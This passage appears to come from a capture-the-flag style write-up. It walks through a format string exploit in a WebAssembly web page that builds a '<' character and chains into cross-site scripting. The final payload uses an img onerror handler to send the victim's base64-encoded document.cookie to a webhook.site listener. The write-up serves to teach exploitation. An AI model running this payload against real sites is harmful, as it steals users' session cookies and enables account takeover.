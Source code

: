 Firstly you can simply modify the value of the first address stack (hopefully there is a address) and check the output on the page. To output I use the `%x` option which will print the hex representation of the data.

```
msg=%1$1x%1$n%20%x
======== Result:
Hello, 0 1
```

**Note**: You need to be careful when working with special characters in the browser, especially `"%<num>"`, this is often treated as a encoded character, so before submitting payloads you need to URL encode that. In the payload above and my Firefox browser the `%1` gets treated as it is but the `%20` after that is actually treated as a space.

**Note 2**: Web assembly behaves different and works different in memory management and execution, this can lead to behaviors which do not happen while exploiting normal binaries.

The message above:
1. pads the output by 1.
2. writes the total number of written bytes to the address of the first argument on the stack.
3. prints what you have written.

The output is exactly 1 which makes it easy for further padding the string until you reach the needed value. The numerical representation of an less-than character is 60, so you simply need to pad the message with 60 characters using this payload. The string can be printed with `%c` to show it as a character.

```
msg=%1$60x%1$n%20%c
======== Result: 
Hello, 0 <
```

Now the payload is nearly finished. The last thing to do is adding a XSS payload after the `<`. For that I used an image tag: (`<img />`), the `onerror` attribute can be used to execute JS if there is an error when loading the image, which is a easy short way to execute JavaScript. I decided not for a `<script>` element, because there you need closing tags which makes the payload more chaotic. For checking if the JavaScript is executed I used <https://webhook.site/> for simplicity. You can create a listener there.


Final payload:
```
msg=%1$60x%1$n%20%cimg%20src=1%20onerror=fetch(%22https://webhook.site/a44da78b-0275-41f1-afce-4417126867d4?test=%22%2Bbtoa(document.cookie))%20/%3E
```

Here is a short explanation of the parts of the payload:

| **Part**                          | **Explanation**                                                                                                                                                                |
| --------------------------------- | --------------------------------------------------------------------------------------------------- |
| `%1$60x`                          | **Format string padding** – formats the first argument as a 60-character wide hexadecimal number. Used to manipulate total number of written bytes.                                             |
| `%1$n`                            | **Format string write** – writes the number of bytes output so far to the memory address pointed to by the first argument. |
| `%20`                             | Simple space(s).                                                                                                                              |
| `%c`                             | Prints the less-than character from the memory.                                                                                                                              |
| `img src=1`                           | Sets a dummy image source. It will fail to load, which triggers the `onerror` event.                                                                                           |
| `onerror=`                        | Event handler triggered when the image fails to load. Used here to execute the JavaScript.                                                                               |
| `fetch("https://...`              | Sends an HTTP request to the listener.                                                                                                             |
| `?test=" + btoa(document.cookie)` | Appends the Base64-encoded value of `document.cookie` (stealing cookies) to the request. I am doing the encoding to fix any possible encoding issues.                                                                                       |                                                                                                                                            |
| `)/ >`                             | Closes the `img` tag and `fetch(`. `%3E` is `>` in URL encoding.                                                                                                                            |
